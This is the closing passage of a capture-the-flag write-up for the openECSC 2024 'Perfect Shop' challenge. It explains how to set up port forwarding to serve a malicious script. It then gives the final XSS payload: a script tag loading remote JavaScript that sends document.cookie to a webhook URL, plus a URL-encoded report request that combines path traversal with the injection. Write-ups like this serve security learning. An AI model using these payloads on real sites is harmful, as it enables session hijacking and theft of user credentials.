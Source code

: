 The WAN port is the port that will be reachable from the outside, while the LAN port is the port that will receive packets from the outside. Essentially, it's the one chosen when the HTTP server was set up in Python. To avoid errors, I would recommend using the same LAN and WAN port (internal and external) where possible.

The destination IP is the local IP of the device used, i.e., the one I obtained with `ifconfig`, or `ipconfig` in Windows.

This way, when the router receives a request on the selected WAN port, the packet will be forwarded to the local IP and port entered in the port forwarding table.

To test that everything has been done correctly, simply visit `[public IP of the router]:[WAN port]` from any device, preferably not connected to the same local network as the server hosting the exploit (e.g., a phone with mobile data).

### Final Payload
Let's make it happen.

To recap:

- The finalized payload to include the remote JavaScript code is `<script src="//[IP]:[PORT]/x.js"></script>`.
- The code present on `x.js` is `window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;`.
- All that's left is to send the bot a report like this:

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/FinalBurp.png" alt="Final Payload in Burp">
`id=1/../../search%3flol%3d"/admin"%26q%3d<script%2bsrc%253d"http%253a//10.10.201.233%253a1337/x.js"></script>&message=/admin`, which decodes to `id=1/../../search?lol="/admin"&q=<script src="http://10.10.201.233:1337/x.js"></script>&message=/admin`

To anyone who managed to read this far, thank you from the bottom of my heart ❤️

For any feedback, you can reach me out on Discord: `titto_caru`